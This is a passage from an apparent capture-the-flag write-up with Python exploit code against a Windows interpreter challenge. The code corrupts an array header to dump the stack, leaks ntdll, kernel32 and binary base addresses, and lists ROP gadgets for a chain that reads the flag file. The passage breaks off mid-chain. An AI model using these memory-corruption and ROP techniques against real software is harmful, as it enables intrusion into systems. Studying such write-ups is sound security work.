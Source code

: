 ```python

    # leak stack contents to leak everything & ROP
    log.info('Dumping stack data of size {:X}...'.format(StackBase - StackLimit))
    stack_leaker = StackLimit
    inc(stack_leaker + 0x8, 3)               # set type as Array<Integer>
    remain = StackBase - StackLimit - 0x14
    for i in range(4):                       # set size as the whole stack, excluding header 0x14
        unit = 0x4 << ((3 - i) * 8)
        incr = remain // unit
        remain -= incr * unit
        inc(stack_leaker + 0x10 + (3 - i), incr)
    fetch_as(stack_leaker, 'stack')
    try:  # we sometimes (but very rarely) fail here, dunno why...
        stack_data = ''.join(p32(dword) for dword in [0]*5 + recv_int_arr('stack'))
    except:
        log.warning('Failed to dump stack data! Trying again...')
        p.close()
        continue
    log.info('Stack data dumped.')

    log.info('Egghunt for ntdll.RtlUserThreadStart + 0x21')
    next_offset = stack_data.rfind(p64(ntdll.base + ntdll.symbols['RtlUserThreadStart'] + 0x21))
    assert(next_offset != -1)
    log.success('Found at {:016X}'.format(StackLimit + next_offset))

    log.info('Searching for kernel32 & binary base leak...')
    kernel32.base, next_offset = next(
        (u64(stack_data[offset:offset+8]) - (kernel32.symbols['BaseThreadInitThunk'] + 0x14), offset)
        for offset in range(next_offset - 8, 0, -8)
        if u64(stack_data[offset:offset+8]) & 0xffff == (kernel32.symbols['BaseThreadInitThunk'] + 0x14) & 0xffff
    )
    log.success('kernel32:   {:016X}'.format(kernel32.base))
    binary.base, RunInterpreter_retofs = next(
        (u64(stack_data[offset:offset+8]) - (binary.symbols['main'] + 0x4a), offset)
        for offset in range(next_offset - 8, 0, -8)
        if u64(stack_data[offset:offset+8]) & 0xffff == (binary.symbols['main'] + 0x4a) & 0xffff
    )
    log.success('winsanity:  {:016X}'.format(binary.base))
    payload_start = StackLimit + RunInterpreter_retofs
    log.success('RunInterpreter return address at {:016X}'.format(payload_start))


    """
    ROP gadgets
    ntdll:
    0x0000000180090c87 : add rsp, 0x40 ; pop rbp ; ret
    0x0000000180001029 : ret
    0x0000000180001b79 : xor eax, eax ; ret
    0x0000000180005f44 : pop rax ; ret
    0x000000018008db8f : pop rcx ; ret
    0x000000018008b547 : pop rdx ; pop r11 ; ret
    0x000000018008b544 : pop r9 ; pop r10 ; pop r11 ; ret
    0x000000018008b542 : pop r8 ; pop r9 ; pop r10 ; pop r11 ; ret
    0x000000018008b541 : pop rcx ; pop r8 ; pop r9 ; pop r10 ; pop r11 ; ret
    0x0000000180078773 : mov qword ptr [rcx], rax ; ret
    0x000000018008eb91 : xor r8d, r8d ; mov eax, r8d ; ret


    ROP chain
    copy scratch + 0x300 <- r"C:\CTF\flag.txt"
    r1 = OpenFile(scratch + 0x300, scratch, 0);
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf
